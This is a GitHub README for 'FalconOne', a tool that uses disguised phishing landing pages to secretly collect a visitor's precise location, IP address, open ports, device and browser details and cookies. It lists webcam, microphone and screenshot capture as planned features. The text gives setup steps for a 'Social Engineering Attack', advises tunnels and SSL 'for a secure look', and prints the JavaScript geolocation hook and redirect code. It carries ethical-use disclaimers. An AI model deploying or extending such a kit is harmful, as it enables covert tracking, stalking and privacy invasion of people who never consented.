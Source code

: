 # FalconOne (v.0.1)

FalconOne is an Open Source solution deployed and updated on daily basis to help prevent terror and crime. 
By using advanced tools, functions and stealth strategies, FalconOne's community is focused on making a friendly and fast solution for effective results.

GENERAL NOTICE:

FalconOne is deployed for ethical and educational purposes only. [Users Should READ the Terms before starting the installation process.](#8-user-Terms)


## Contents

1. [Functions Overview](#1-functions-overview)
2. [Scenarios](#1-Functions-Overview)
3. [Tool Overview](#3-Tool-Overview)
4. [Prerequisites](#4-Prerequisites)
5. [Installation/Setup](#5-InstallationSetup)
6. [Usage](#6-Usage)
7. [Community](#7-Community)
8. [User Terms](#8-user-Terms)
9. [Releases](#9-Releases)
10. [Templates](#10-Templates)


## 1. Functions Overview

### 1.2. Version 0.1 (In Progress)

- [x] Target Accurate Location (via Google API)
- [x] Target Public IP Address
- [x] Target Open Port
- [x] Target Device Model and it Version
- [x] Target Browser Model and its Version
- [x] Target Operating System and its Version
- [x] Target Cookies
- [ ] Target Webcam Activation
- [ ] Target Microphone Activation
- [ ] Target Screen Screenshot


## 2. Scenarios

... In Progress


## 3. Tool Overview

FalconOne is based on PHP functions that collects and triggers multiple browser's information functionalities via disguised HTML and CSS templates.
FalconOne is coded as explained below:

### 3.1. Landing Page(s)

- index.html (landing page)

### 3.2. Main Style

- styles/
  - /footer.css
  - /join.css
  - /main.css

### 3.3. PHP Functions

- forward.php

### 3.4. Loggers

- info.txt (location)
- log.txt (User-Agent)


## 4. Prerequisites

- Apache or Nginx Server
- IP Address or a Tunnel (e.g. [Ngrok](https://ngrok.com/))
- Domain Name (Recommended)
- SSL Certificate (for a secure look)


## 5. Installation/Setup

- Upload the Zip file on your Web Server Public directory
- Unzip the FolconOne uploaded file
- Customize index.html and CSS Styles files according to your Social Engineering Attack


## 6. Usage

Once deployed, wait for the target to interact with the landing page functions such as buttons, links, images and popups.
Once the Target interacts with the Landing page function(s), location(s) should be stored in info.txt and other information in log.txt.

The following PHP Functions logic in index.html should not be changed:

```
<p id="errorMessage"></p>

<script>
let message = document.getElementById("errorMessage");

function getLocation(){
  if(navigator.geolocation){
    navigator.geolocation.getCurrentPosition(sendLocation);
  } else{ 
    message.innerHTML = "<em>Your browser is not supported.</em>";
  }
}

function sendLocation(geoLocation) {
  window.location = "forward.php?x="+geoLocation.coords.latitude+"&y="+geoLocation.coords.longitude;
}
</script>
```

In forward.php line 37, you can edit the default redirection URL which is google.com by default:

```
header('Location: https://www.google.com/');
```

The main Hook function should be respected as below:

```
<a class="yourstyle" onclick="getLocation()">Button</a>
```


## 7. Community

... In Progress


## 8. User Terms

- Users are not allowed to deploy FalconOne on malicious operations
- Users are not allowed to share FalconOne on a commercial purpose or fix a price
- FalconOne is FREE
- FalconOne can be edited according to Users needs


## 9. Releases

- January 9th, 2022: FalconOne v.0.1 (Minor Update)
- January 8th, 2022: FalconOne v.0.1 (Major Upload)


## 10. Templates

... In Progress
